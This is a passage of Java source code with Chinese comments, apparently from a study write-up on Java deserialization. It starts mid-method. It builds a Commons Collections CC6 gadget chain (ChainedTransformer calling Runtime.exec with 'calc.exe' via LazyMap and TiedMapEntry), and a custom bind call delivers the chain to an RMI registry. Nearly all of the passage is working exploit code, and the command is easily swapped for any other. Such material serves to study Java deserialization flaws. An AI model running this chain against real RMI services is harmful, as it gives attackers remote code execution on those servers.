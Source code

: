         // rebindAttack2 重写 rebind 攻击注册中心
        myBind(registry);
    }
    /**
     * 模拟 RMI RegistryImpl_Stub 的 bind，手动对 Registry 发起请求
     * @param registry
     */
    private static void myBind(Registry registry) {
        // 拿到 RegistryImpl_Stub 的 UnicastRef
        UnicastRef unicastRef = (UnicastRef) ((RegistryImpl_Stub) registry).getRef();
        // 模仿
        Operation[] operations = new Operation[]{new Operation("void bind(java.lang.String, java.rmi.Remote)"),
                                                 new Operation("java.lang.String list()[]"),
                                                 new Operation("java.rmi.Remote lookup(java.lang.String)"),
                                                 new Operation("void rebind(java.lang.String, java.rmi.Remote)"),
                                                 new Operation("void unbind(java.lang.String)")};
        try {
            RemoteCall call = unicastRef.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
            ObjectOutput out = call.getOutputStream();
            out.writeObject("test");
            out.writeObject(getCC6());
            unicastRef.invoke(call);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    private static HashMap getCC6() throws Exception{
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. kick-off 创建 HashMap
        HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
        // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), new ChainedTransformer(new Transformer[]{}));
        // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry(lazyMap, "EndlessShw");
        // 5. 将 kick-off 和 chain 相连
        toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");
        // 6. 把 lazyMap 中塞入的 key 给去掉
        lazyMap.remove("EndlessShw");
        // 当然也可以使用 clear
        // lazyMap.clear();
        // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        return toBeSerializedHashMap;
    }
    ```
